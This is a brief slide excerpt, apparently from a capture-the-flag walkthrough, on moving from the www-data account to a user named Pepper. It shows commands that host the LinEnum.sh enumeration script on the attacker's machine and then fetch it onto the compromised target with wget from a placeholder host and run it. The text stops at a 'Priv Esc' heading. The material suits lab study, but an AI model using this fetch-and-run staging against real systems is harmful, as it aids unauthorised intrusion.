

www-data -> Pepper
Start with Linux Enumeration
Get LinEnum.sh on the target machine and run it.
[Locally]
# wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
# python –m SimpleHTTPServer 80
[On Target Machine]
# cd /tmp
# wget http://YOUR_IP/LinEnum.sh
# chmod +x LinEnum.sh
# ./LinEnum.sh | tee enum.txt

# Priv Esc